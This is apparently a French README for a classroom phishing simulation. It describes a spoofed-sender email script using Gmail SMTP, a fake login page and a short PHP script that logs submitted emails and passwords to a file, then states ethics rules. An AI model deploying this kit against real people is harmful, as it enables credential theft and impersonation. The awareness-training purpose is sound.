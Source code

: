 # 🎓 Simulation d'Email Spoofing et de Page de Phishing

> ⚠️ Projet éducatif strictement local simulant une attaque de phishing.  
> ❌ Ne doit en aucun cas être utilisé contre des tiers réels ou en ligne.

---

## 📁 Structure du Projet

```
email_spoofing_project/
├── email_templates/
│   ├── spoofed_email.html        ← Modèle d'email HTML
│   └── spoofed_email.eml         ← (Optionnel) version EML
│
├── phishing_server/
│   ├── fake_login.html           ← Page de connexion simulée
│   ├── capture.php               ← Script de capture de credentials
│   └── stolen_credentials.txt    ← Stocke les identifiants saisis
│
├── email_sender/
│   └── send_spoofed_email.py     ← Script Python d'envoi du faux mail
│
├── requirements.txt              ← Dépendances Python (vide ou optionnel)
└── README.md                     ← Documentation complète
```

---

## ⚙️ Prérequis

- Python 3
- PHP (ligne de commande ou XAMPP/WAMP)
- Compte Gmail avec mot de passe d’application
- Navigateur web

---

## 🧩 Étape 1 – Préparer l’email HTML

📄 `email_templates/spoofed_email.html`

Ce fichier contient :

- Un message de confirmation d’inscription
- Un bouton “VERIFY YOUR EMAIL”
- Un lien vers `http://localhost:8000/fake_login.html`

🧠 L’email n’utilise pas de JavaScript — uniquement HTML/CSS.

---

## 📨 Étape 2 – Envoi de l'email

📄 `email_sender/send_spoofed_email.py`

Ce script :

- Charge le fichier HTML
- Se connecte à un SMTP (ex : Gmail)
- Envoie l’email à une cible simulée

🔧 À configurer :

```python
msg['From'] = 'spoofed@exemple.com'
msg['To'] = 'victime@exemple.com'
sender_email = 'ton_adresse@gmail.com'
app_password = 'mot_de_passe_application'
```

🔐 Obtenir un mot de passe d'application :  
https://myaccount.google.com/apppasswords

🟢 Lancement :

```bash
cd email_sender
python send_spoofed_email.py
```

---

## 🌐 Étape 3 – Créer la fausse page de login

📄 `phishing_server/fake_login.html`

Contient :

- Champs “email” et “password”
- Détection CapsLock
- Bouton “Connexion”

🎯 Le formulaire envoie les données vers `capture.php` en méthode GET.

---

## 🛡️ Étape 4 – Capturer les identifiants

📄 `phishing_server/capture.php`

```php
<?php
  $email = $_GET['email'];
  $pass = $_GET['password'];
  file_put_contents("stolen_credentials.txt", "Email: $email | Password: $pass\n", FILE_APPEND);
  echo "Vérification terminée.";
?>
```

🗃️ Les données sont enregistrées dans `stolen_credentials.txt`.

---

## 🚀 Étape 5 – Lancer le serveur local

```bash
cd phishing_server
php -S localhost:8000
```

🔗 Ouvrir : [http://localhost:8000/fake_login.html](http://localhost:8000/fake_login.html)

---

## 🔄 Étape 6 – Flux complet du test

1. L’attaquant crée un faux email (HTML)
2. L’envoie à la victime avec `send_spoofed_email.py`
3. La victime clique sur le lien et tombe sur `fake_login.html`
4. Elle entre ses identifiants
5. Le script `capture.php` les enregistre
6. La page affiche “Vérification terminée”

---

## ✅ Étape 7 – requirements.txt

Contenu :

```
# Aucun package nécessaire
```

---

## 🧪 Étape 8 – Bonnes pratiques & éthique

- Ne jamais utiliser ce projet en dehors d’un cadre privé ou académique
- Ne jamais viser une vraie adresse institutionnelle
- Ne jamais simuler de redirection vers des services officiels
- Toujours informer les participants et encadrants

---

## 👨‍🏫 Auteur

Projet réalisé dans le cadre d’un exercice pédagogique de cybersécurité.  
But : illustrer les techniques de phishing et sensibiliser à la sécurité numérique.
